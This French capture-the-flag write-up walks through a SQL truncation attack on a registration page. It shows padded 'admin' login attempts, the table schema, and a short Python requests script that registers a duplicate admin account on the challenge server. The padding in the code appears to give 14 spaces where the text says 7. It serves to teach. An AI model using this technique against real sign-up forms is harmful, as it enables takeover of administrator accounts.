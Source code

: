 Dans un premier temps, on va s’essayer à comprendre l’exploitation de la faille en se documentant sur cette dernière et en s’amusant sur les différents inputs.

Au niveau de la page register.php, si l’on essaye :
```
login = "admin"
password = "staycalm2phi"
User already in DB or password too short (8 chars min)
```
On comprend vite qu’un utilisateur nommé "admin" existe déjà en essayant de l’inscrire sur le site.
```
login = "admin "
password = "staycalm2phi"
User already in DB or password too short (8 chars min)
```
On a l’impression que SQL tronque les espaces et ne les prend pas en compte.
```
login =  "admin 2phi"
password  = "staycalm2phi"
User saved
```
Bingo  😄 . Comment exploiter cela ?
Une information importante sur le schéma de base de données réside dans le code de la page :
```
CREATE TABLE IF NOT EXISTS USER(  
    id INT NOT NULL AUTO_INCREMENT,
    login VARCHAR(12),
    password CHAR(32),
    PRIMARY KEY (id)
);
```

Ici l’on peut voir que le login n’accepte que 12 caractères. L’objectif est d’insérer assez d’espace pour que la chaîne du login saisie par l’utilisateur ne soit pas directement égale à "admin" mais qu’elle le devienne après la "truncation" effectuée par SQL lors du dépassement de la taille maximum allouée à un attribut.

La chaîne admin fait 5 caractères, il suffit d’y ajouter 7 caractères vides ainsi que notre suffixe afin de tronquer la fin de la chaîne lors de la création de notre utilisateur et d’insérer un autre admin dans la base de données.

En quelques lignes de code :
```
import requests
 
suffixe = "2phi"
padding = "  " * 7
data = {"login":"admin" + padding + suffixe, "password":"staycalm2phi"}
r = requests.post("http://challenge01.root-me.org/web-serveur/ch36/register.php", data)
```

Il suffisait ensuite de se rendre sur la page admin.php et de tenter de se connecter avec le password indiqué dans le code.
